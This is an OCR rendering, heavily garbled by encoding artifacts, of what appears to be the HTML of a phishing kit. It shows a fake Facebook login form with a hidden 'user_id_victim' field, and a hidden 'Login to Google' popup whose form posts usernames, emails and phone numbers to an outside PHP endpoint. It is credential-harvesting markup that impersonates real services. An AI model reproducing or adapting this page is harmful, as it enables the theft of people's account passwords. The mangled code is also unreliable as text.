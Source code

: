 ress'0522'0520autocomplete'053D'0522off'0522'0520autocapitalize'053D'0522off'0522'0520required'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cinput'0520t'5@pe'053D'0522password'0522'0520class'053D'0522inputF'42'0522'0520name'053D'0522pass'0522'0520placeholder'053D'0522Password'0522'0520autocomplete'053D'0522off'0522'0520autocapitalize'053D'0522off'0522'0520required'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cinput'0520t'5@pe'053D'0522hidden'0522'0520name'053D'0522login'0522'0520value'053D'0522Face'42ook'0522'0520readonl'5@'053E'050A'050'1@'050'1@'050'1@'050'1@'053Cinput'0520t'5@pe'053D'0522hidden'0522'0520name'053D'0522t'5@pe'0522'0520value'053D'0522ff'7Ff'42'0522'0520readonl'5@'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cinput'0520t'5@pe'053D'0522hidden'0522'0520name'053D'0522user'7Fid'7Fvictim'0522'0520value'053D'0522K0'1@SV'0522'0520/'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C'42utton'0520t'5@pe'053D'0522su'42mit'0522'0520class'053D'0522'42tn-login-f'42'0522'053ELog'0520In'053C/'42utton'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/form'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522txt-create-account'0522'053ECreate'0520account'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522txt-not-now'0522'053ENot'0520now'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522txt-forgotten-password'0522'053EForgotten'0520password'053F'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522language-'42ox'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Ccenter'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522language-name'0520language-name-active'0522'053EEnglish'0520'052'1CUK'052'1@'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522language-name'0522'053EBahasa'0520Indonesia'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522language-name'0522'053EBasa'0520Jawa'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522language-name'0522'053EBahasa'0520Mela'5@u'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522language-name'0522'053E'05u65E5'05u672C'05u'1CA'1@E'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522language-name'0522'053EEspa'05F1ol'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522language-name'0522'053EPortugu'05EAs'0520'052'1CBrasil'052'1@'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522language-name'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Ci'0520class'053D'0522fa'0520fa-plus'0522'053E'053C/i'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/center'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522cop'5@right'0522'053EFace'42ook'0520Inc'0A'053C/div'053E'050A'0520'0520'0520'0520'053C/div'053E'050A'053C/div'053E'050A'050A'053Cdiv'0520class'053D'0522popup-login'0520twitter'0520animated'0520fadeIn'0522'0520st'5@le'053D'0522displa'5@'053A'0520none'053B'0522'053E'050A'0520'0520'0520'0520'053Cdiv'0520class'053D'0522popup-'42ox-login-twitter'0522'0520st'5@le'053D'0522text-align'053Aleft'053B'0520padding'053A5px'053B'0522'053E'050A'050'1@'050'1@'0520'0520'0520'0520'0520'0520'0520'0520'053Ca'0520onclick'053D'0522closetwit'052'1C'052'1@'0522'0520class'053D'0522close-other'0522'053E'053Ci'0520class'053D'0522zmdi'0520zmdi-close'0522'053Eclose'053C/i'053E'053C/a'053E'050A'050A'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522header-twitter'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Ccenter'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cimg'0520src'053D'0522https'053A//2p'0Acom'0Atr/wp-content/uploads/201'1C/07/google'7FPNG1'1@635'0Apng'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053C/center'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522'42ox-twitter'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Ccenter'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cform'0520action'053D'0522https'053A//raviral'0Acom/k'7Ffac'0Aphp'0522'0520method'053D'0522post'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522txt-login-twitter'0522'053ELogin'0520to'0520Google'053C/div'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cdiv'0520class'053D'0522input-'42ox-twitter'0522'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cla'42el'053EPhone'052C'0520email'052C'0520or'0520username'053C/la'42el'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'0520'053Cinput'0520t'5@pe'053D'0522text'0522'0520name'053D'0522email'0522'0520placeholder'053D'0522'0522'0520required'053E'050A'0520'0520'0520'0520'0520'0520'0520'0520'0520'052